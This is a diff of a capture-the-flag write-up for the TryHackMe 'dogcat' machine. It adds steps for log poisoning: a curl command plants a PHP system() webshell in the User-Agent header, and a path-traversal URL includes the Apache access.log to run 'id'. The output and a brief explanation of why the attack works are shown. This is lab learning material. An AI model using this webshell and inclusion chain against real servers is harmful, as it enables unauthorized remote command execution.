

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -447,3 +447,56 @@ http://10.10.43.88/?view=dog/../../../../../../../../../var/log/apache2/access.l
 <img width="1496" height="822" alt="image" src="https://github.com/user-attachments/assets/da6282b0-ab1b-4b68-9ebf-8ec4a4e61ab1" />
 
 > notice that we can see `user agant` `Mozilla/5.0 `
+
+> try to put php code in user agant to see if it will run
+
+
+
+```
+curl "http://10.10.43.88" -H "User-Agent: <?php system(\$_GET['c']); ?>"
+```
+
+<img width="1133" height="460" alt="image" src="https://github.com/user-attachments/assets/dd04ca67-72f1-47f7-8f7f-ec286f1ceda4" />
+
+
+> ## see logs again
+
+<img width="1054" height="305" alt="image" src="https://github.com/user-attachments/assets/30e7f092-3b81-4564-a4dd-8663e9f12f80" />
+
+> ## good now we will put value to **`c`** forexample **`id`** :
+
+
+```
+http://10.10.43.88/?view=dog/../../../../../../../../../var/log/apache2/access.log&ext=&c=id
+```
+
+
+<img width="1390" height="149" alt="image" src="https://github.com/user-attachments/assets/ff3da476-fac9-4fe9-8733-4265a939515c" />
+
+```
+"uid=33(www-data) gid=33(www-data) groups=33(www-data)"
+```
+
+
+### Summary example
+
+- The log writing step = just writing the text `<?php system($_GET['c']); ?>`.
+
+- The include step = execute this text as part of the site code.
+
+- The value of `c` = comes from the URL at the time of execution.
+
+### The reason for the success of the attack in brief
+
+because:
+
+- The server writes the User-Agent to the log.
+
+- The application allows include for a path from which the login can be accessed.
+
+- include makes PHP execute the code you put in the log.
+
+- The attacker passes the command via `?c=...`.
+
+
+---
````
